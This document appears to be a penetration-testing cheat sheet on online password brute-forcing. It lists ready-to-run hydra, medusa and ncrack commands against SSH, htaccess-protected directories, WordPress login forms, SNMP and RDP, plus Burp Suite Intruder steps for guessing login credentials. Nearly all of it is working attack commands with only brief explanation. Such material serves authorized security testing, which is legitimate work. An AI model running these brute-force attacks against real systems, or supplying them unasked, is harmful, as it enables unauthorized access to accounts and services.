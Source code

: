 # Online password cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp Suite

1. Intecept a login attempt.
2. Modify the user field with ^USER^ and the password field with ^PASS^
3. Grab the post request path \(/wp-login.php\)
4. Grab the modified login request \(last field in request\)

Should be able to populate like below

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In
```

1. Send a fake request to the site and grab any text indicators of an invalid request \(_is incorrect_ in example below\)

2. Append to the end of the hydra syntax and close double quote

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/10k_most_common.txt TARGETIPADDRESS http-post-form "/wp-login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:is incorrect" -t 64
```

Use Burp **Pro** suite. \(Can be performed in free but is ridiculously slow\)

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have only one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



